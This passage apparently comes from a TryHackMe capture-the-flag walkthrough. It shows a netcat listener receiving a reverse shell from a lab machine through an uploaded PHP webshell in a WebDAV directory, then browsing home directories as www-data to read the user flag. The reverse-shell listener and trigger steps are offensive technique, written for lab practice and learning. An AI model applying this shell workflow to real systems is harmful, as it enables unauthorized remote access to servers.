 ### Step 3 – Shell Execution and User Access
- Set up a netcat listener:  
  ```
  ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~/THM/webdav]
  └─$ nc -lvnp 6969
  listening on [any] 6969 ...
  connect to [10.23.156.151] from (UNKNOWN) [10.201.52.93] 36770
  Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
   08:52:38 up 28 min,  0 users,  load average: 0.00, 0.00, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ ls
  bin
  boot
  dev
  etc
  home
  initrd.img
  initrd.img.old
  lib
  lib64
  lost+found
  media
  mnt
  opt
  proc
  root
  run
  sbin
  srv
  sys
  tmp
  usr
  var
  vmlinuz
  vmlinuz.old
  $ cd home
  $ ls
  merlin
  wampp
  $ cd merlin
  $ ls
  user.txt
  $ cat user.txt
  [REDACTED]
  ```
  **Output Explanation:**  
  Netcat listens on port 6969. Triggering `http://10.201.52.93/webdav/rev_shell.php` (via browser or curl) connects back, providing a shell as `www-data` (Apache user). Navigation reveals users `merlin` and `wampp`; `user.txt` in `/home/merlin` contains the user flag.
